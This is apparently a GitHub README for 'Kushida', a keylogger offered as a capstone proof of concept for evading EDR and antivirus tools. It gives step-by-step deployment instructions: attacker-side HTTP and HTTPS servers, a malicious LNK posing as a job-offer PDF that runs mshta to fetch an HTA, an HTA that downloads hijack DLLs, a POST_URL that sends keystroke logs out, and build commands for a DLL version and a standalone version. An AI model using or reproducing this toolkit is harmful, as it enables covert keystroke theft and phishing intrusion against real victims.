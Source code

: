# Kushida
This is the Kushida keylogger developed for my Bachelor's capstone project, 2023. It was developed for research and academic purposes.

Kushida is a keylogger written in C. It is a proof of concept for evading modern EDR and AV programs. It successfully evades many EDR solutions by using DLL hijacking.

# Setting up the server

The server should be a Linux server and needs to have Python 3 installed, and the victim needs to have the ability to initiate a TCP connection to the server. The libraries the server uses are part of the Python standard library.

Two services need to be run for this server:
1. The HTTP file service
2. The HTTP log collection service
To run the HTTP file service
1. Download the KeyloggerFiles Folder from the repository
2. Place the KeyloggerFiles folder in your file system (anywhere is fine).
3. Change directories into the KeyloggerFiles folder and run the following command:

```bash
sudo python3 -m http.server 80
```

If you want to background the process, you press CTRL+Z, then type bg. 

Next, to set up the HTTPS log collection service, we need to download the httpsServer folder from the repository.
1. Change directories inside the downloaded the httpsServer folder
2. Generate keys if needed
3. Then, run the Python file inside the folder with:
```bash
python3 httpsServer.py
```
Keys are provided in the repository, however, you can generate your own keys with the following openssl command:
```bash
openssl req -new -x509 -keyout key.pem -out server.pem -days 365 -nodes
```

The services should now be running on all interfaces. The ports that are used are port 80 for the HTTP file server and 8080 for the HTTPS server. These values can be modified if needed, however, you will also need to modify the ports of the malware accordingly.

# Building and running Kushida

## Google-Job-Offer.pdf.lnk
This is the malicious "PDF" which will present a PDF to the user and install Kushida.
Replace the IP address `192.168.12.95` with your server's IP address.
```PowerShell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe "& start microsoft-edge:http://192.168.12.95/Google-Job-Offer.pdf; C:\Windows\System32\mshta.exe http://192.168.12.95/FileDownloader.hta"
```

## FileDownloader.hta
This script is downloaded by the lnk
Replace the IP address `192.168.12.95` with your server's IP address.
```javascript
var fileUrl1 = "http://192.168.12.95/cscapi.dll";  
var fileUrl2 = "http://192.168.12.95/libcurl-d.dll"; 
var fileUrl3 = "http://192.168.12.95/zlibd1.dll";
```

## cscapi.dll

This is the keylogger itself. To compile this, we need vcpkg installed.

Installation instructions can be found here: [Get started with vcpkg](https://vcpkg.io/en/getting-started.html)

Then open a command prompt, change directories to the vcpkg directory you installed, and enter the following command:
```
vcpkg.exe install curl[tool]
```

You may need to reload Visual Studio after installing libcurl.

Change the `POST_URL` definition to the URL your server uses. By default, just change the IP address. 
```
#define POST_URL "https://192.168.12.95:8080/file.txt"
```

Now, in Debug 64-bit mode, build the program using Visual Studio. You can also build the program in Release, however, you would have to change the names for `libcurl-d.dll` and `zlibd1.dll` to `libcurl.dll` and `zlib1.dll` respectively. 

If you need to target a 32-bit application, compile the DLL in 32-bit mode.

Now place the programs you have built into the KeyloggerFiles folder on your server.

# Kushida in action

![Pasted image 20231130001641](https://github.com/nszeto168/kushida/assets/103395342/8e7d322b-a74d-461a-9a6a-380653d11625)

The malicious and non-malicious PDFs are nearly identical.


![Pasted image 20231130001719](https://github.com/nszeto168/kushida/assets/103395342/c3e54f42-3513-4713-9fd0-032c603afccf)

The malicious LNK file will open a PDF for the victim, making it seem legitimate.

![Pasted image 20231130002042](https://github.com/nszeto168/kushida/assets/103395342/0b9c52b0-4fd0-4efb-947c-abe7265e651e)

![Pasted image 20231130002120](https://github.com/nszeto168/kushida/assets/103395342/f96268b6-07d4-4d84-aff9-218def0392f4)


The keylogging should start. Whenever Kushida starts up and is loaded into memory, it will execute DLLMain, which will send log.txt to the HTTPS server.
![Pasted image 20231130002157](https://github.com/nszeto168/kushida/assets/103395342/3bf41847-5141-4788-9ce4-33608da8fbfd)


# Kushida Solo (standalone exe)

There is a modified version of Kushida available which functions as a standalone exe file. This exe file can be useful because certain EDRs may be triggered by DLL hijacking or the malicious LNK file. However, the DLL hijacking method tends to be a stealthier solution long term because it makes far less "noise".

There are some benefits to Kushida Solo:
- With Kushida Solo, you do not need `libcurl-.dll` nor `zlibd1.dll`.
- Kushida Solo can be compiled either as a 32-bit or a 64-bit application.
- Kushida Solo may evade some defenses more effectively (generally Kushida as a DLL is better though).

## Building Kushida Solo
![Pasted image 20231130003706](https://github.com/nszeto168/kushida/assets/103395342/db46e388-9724-4d71-b7fe-7e2fcc6d94b1)


Change Kushida's send frequency in keylogger.h. By default, it is every 5 seconds. This makes a lot of noise and is not recommended, however, it is good for testing.

Also, change the hostname definition in keylogger.cpp
![Pasted image 20231130005729](https://github.com/nszeto168/kushida/assets/103395342/545ad103-0dce-44b8-8597-4e7168f99d76)


VisualStudio's build tool does not seem to work when compiling Kushida solo, so we can compile it with cl.exe

Change directories to the `keylogger` directory, then run:
```PowerShell
cl.exe keylogger.cpp /link /OUT:kushida.exe winhttp.lib user32.lib kernel32.lib
```

Now you should have a standalone executable. The executable generates a log file in the same directory as itself.
You will still need to run the HTTPS log collection server, however, you will not need the HTTP file server when using Kushida Solo.

# Results

Thanks for checking out the Kushida keylogger, I hope you enjoyed it!
